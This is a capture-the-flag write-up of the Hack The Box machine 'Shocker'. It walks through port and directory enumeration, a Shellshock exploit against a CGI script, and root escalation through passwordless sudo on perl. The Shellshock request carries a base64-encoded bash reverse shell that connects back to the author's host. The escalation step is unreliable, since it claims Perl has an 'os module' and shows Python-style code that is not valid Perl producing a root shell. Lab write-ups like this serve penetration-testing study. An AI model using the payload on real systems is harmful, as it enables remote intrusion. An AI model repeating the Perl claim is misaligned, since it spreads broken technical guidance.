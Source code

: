 # Shocker
>Author : Xyan1d3
>Date : 22nd June 2021
>IP : 10.10.10.56
>OS : Linux
>Difficulty : Easy

# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Tue Jun 22 23:07:00 2021 as: nmap -sC -sV -v -oN nmap/shocker 10.10.10.56
Nmap scan report for shocker.htb (10.10.10.56)
Host is up (0.075s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We could now, look up for the banner on `launchpad.net` to find out the OS Version.
Source : https://launchpad.net/ubuntu/+source/openssh/1:7.2p2-4ubuntu2.2

![[Pasted image 20210622232213.png]]

The OS Version here is Ubuntu Xenial `16.04`.

We have a weird thing in the box as the default SSH port is `22/tcp` but here SSH is running on port `2222/tcp`.

## Web Enumeration
The website has a picture of a bug.
The site does not has a `robots.txt`.
### Gobuster
```python
┌─[Magisk@Xyan1d3]─[10.10.14.3]─[~/htb/shocker]
└──╼ # gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --add-slash -o gobuster.out
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2021/06/23 00:31:41 Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin/             (Status: 403) [Size: 294]
/icons/               (Status: 403) [Size: 292]
```

On doing a directory busting with gobuster we find out that we have a `/cgi-bin/` web directory.

The `cgi-bin` bin directory is most popular as for the famous shellshock vulnerability.
We could now do another `gobuster` run and try to find out any possible `cgi` or `sh` scripts inside this directory.

```python
┌─[Magisk@Xyan1d3]─[10.10.14.3]─[~/htb/shocker]
└──╼ # gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x sh,cgi -t 25
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 25
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              sh,cgi
[+] Timeout:                 10s
===============================================================
2021/06/23 00:34:31 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 118]
```

We find out that we have a bash script named `user.sh` inside this directory.
We could now, try to do a shellshock on this file.

We find out that the `user.sh` is a script which print's runs the `uptime` command and displays it on the website.
![[Pasted image 20210623004751.png]]

We now, try to inject the Shellshock payload into the `User-Agent` header.
![[Pasted image 20210623004906.png]]

And, We successfully get the output of the `id` command returned to us.

# Initial FootHold as shelly
We exploit the `ShellShock` vulnerability and put a bash reverse shell to get a shell into the box as the user `shelly`.
![[Pasted image 20210623005136.png]]
```python
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :;}; /bin/bash -c 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzg4ODggMD4mMQ== |base64 -d|bash'&
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```
We recieve the a reverse shell as the user `shelly`.
![[Pasted image 20210623005247.png]]

BTW, I was using my own written https://github.com/Xyan1d3/shelter for this which is written by me :P

We could now, visit the home directory of the user `shelly` and get our user flag.
![[Pasted image 20210623005545.png]]

# Root Escalation
We do a simple `sudo -l` and find out that our user has sudo nopasswd on `perl`.
```python
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

`perl` is a programming language that means it also has `os` module and can execute commands on the system, We know where this is going.

```python
shelly@Shocker:/home/shelly$ sudo perl -e 'os.exec('bash')'
root@Shocker:/home/shelly# id
uid=0(root) gid=0(root) groups=0(root)
```
![[Pasted image 20210623010041.png]]